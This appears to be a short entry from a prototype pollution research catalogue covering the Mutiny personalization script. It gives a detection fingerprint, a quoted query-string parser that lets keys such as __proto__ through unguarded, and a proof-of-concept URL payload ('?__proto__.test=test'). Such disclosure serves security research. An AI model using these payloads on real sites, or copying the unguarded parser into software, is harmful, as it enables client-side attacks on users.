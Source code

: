 ## Mutiny

URL: https://www.mutinyhq.com/

### JS Fingerprint
```
return (typeof mutiny != 'undefined')
```

### Vulnerable code fragment

https://client-registry.mutinycdn.com/personalize/client/8da34c221fc9147a.js

```js
function b(e) {
  return e.replace('?', '').split('&').reduce(function (e, t) {
    var n = t.split('='),
    r = n[0],
    i = n[1],
    o = r.split('.');
    return o.reduce(function (e, t, n) {
      return n === o.length - 1 ? e[t] = 'string' == typeof i ? unescape(i.replace('+', ' ')) : i || '' : e[t] = e[t] || {
      },
      e[t]
    }, e),
    e
  }, {
  })
}
```

### PoC
```html
<script src=https://client-registry.mutinycdn.com/personalize/client/8da34c221fc9147a.js></script>
```

```
?__proto__.test=test
```
